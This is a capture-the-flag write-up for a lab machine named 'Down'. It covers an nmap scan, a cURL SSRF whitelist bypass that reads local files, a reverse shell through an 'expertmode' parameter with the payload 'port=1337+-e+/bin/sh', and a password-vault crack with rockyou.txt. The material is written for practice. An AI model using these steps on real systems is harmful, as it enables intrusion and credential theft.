

# Description


`Down` is an easy Linux box, based on abusing `cURL` by supplying 2 URLs instead of one, bypassing the whitelist. After reading the `index.php` source code, you will find an interesting parameter that will let you run `nc` and you will get a shell as `www-data`. To escalate your privileges, you have to find a `pswm` file which is the `pswm` master password that will help you decrypt the vault.
# Recon & Enumeration
Nmap Scan:
```
# Nmap 7.94SVN scan initiated Fri Sep 20 17:36:23 2024 as: nmap -sCV -oN nmap/initial 10.10.82.131
Nmap scan report for 10.10.82.131 (10.10.82.131)
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
|_  256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 20 17:36:32 2024 -- 1 IP address (1 host up) scanned in 9.70 seconds
```
Visiting the website on port 80, we can see that the target is a service that checks if a URL is up or down:


I tried looking for `http://127.0.0.1` and I get the contents of the target website, which hints that this might be vulnerable to SSRF.
I tried scanning all ports in hope that I will see at least a filtered one but no luck.
I tried other methods like using protocols such as `file://` or `gopher://` but there is a whitelist that only allows `http` or `https`.
If we run `nc` and enter our URL, we can see that the webapp is using `cURL`:


# Exploitation
Useful tip about cURL. Did you know that you can request more than one URL in only one command? Think about the first url being our python webserver and the second URL looks for `file:///etc/passwd` in the target system. That's how we are going to exploit this machine.



After spending a lot of time looking for files, I started to look through `index.php`'s code located at `/var/www/html/index.php` and I noticed that there is an `expertmode` parameter that will allow me to execute `nc` and get a shell.


I sent a request to `/index.php?expertmode=tcp` and my post parameters were `ip=10.8.3.153&port=1337+-e+/bin/sh` so I can get a reverse shell.


# Privilege Escalation

First of all, stabilize the shell and then run `LinPeas` to look for low hanging fruits.


`pswm` looked interesting so I went to check what's inside:


Is it base64? Hell nah. It is the encrypted master password for a command line password manager written in python:
[https://github.com/Julynx/pswm](https://github.com/Julynx/pswm).
First time, I thought it is something related to position specific weight matrix and I thought I will have to do some crazy crypto challenge but this github repo made my life easier:
[https://github.com/seriotonctf/pswm-decryptor](https://github.com/seriotonctf/pswm-decryptor)
Decrypting the string:
```
python pswm-decrypt.py -f pswm -w /usr/share/wordlists/rockyou.txt
```


Now I can login into the box using `aleks`' credentials.


There is no more privilege escalation needed, once you are `aleks`, you can switch to `root` and read the flag!


[https://api.vulnlab.com/api/v1/share?id=0bf21cf9-34ee-4739-a5fb-63a538d6e8e3](https://api.vulnlab.com/api/v1/share?id=0bf21cf9-34ee-4739-a5fb-63a538d6e8e3 "https://api.vulnlab.com/api/v1/share?id=0bf21cf9-34ee-4739-a5fb-63a538d6e8e3")
# Resources
[https://github.com/seriotonctf/pswm-decryptor](https://github.com/seriotonctf/pswm-decryptor)
